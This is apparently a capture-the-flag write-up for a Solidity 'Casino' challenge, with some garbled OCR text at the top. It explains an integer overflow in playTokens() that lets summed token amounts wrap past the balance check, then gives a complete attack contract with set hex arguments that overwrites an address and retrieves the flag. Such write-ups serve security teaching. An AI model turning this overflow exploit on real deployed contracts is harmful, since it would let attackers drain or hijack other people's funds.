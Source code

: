 
```
0x 5aB8C62A 01b00f57f6C35c58 fFe7B64777749159
  I Black  I  Slot Machine  I    Roulette
```

### 2. Integer overflow

In the playTokens() function all token ammounts we want to add together are added together and then checked if the total is smaller than our balance. But there is no check for integer Overflows. So if we would for example aDD 0xFFFFFFFFFFFFFFFF and 0x0000000000000001 it would result in 0x0000000000000000

## 3. Exploit

We can use both of these to exploit. We can use the 4th variable (poker) together with the overflow to be able to overwrite arbitrary parts of the address without needing to own any tokens at all. Below you can see my attack contract:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.7.6;

import "./Casino.sol";

contract Attack
{
    Casino target;

    constructor(address _target)
    {
        target = Casino(_target);
    }

    function missionOverWrite() public
    {
        target.playTokens(0xfd48b1cf88b15bdd, 0, 0, 0x2b74e30774ea423);
        target.playTokens(0, 0x5f54b6656fc56e05, 0, 0xa0ab499a903a91fb);
        target.playTokens(0, 0, 0x7746d726, 0xffffffff88b928da);
    }
}
```
Now you just need to deploy this contract and call missionOverWrite()

--> Flag
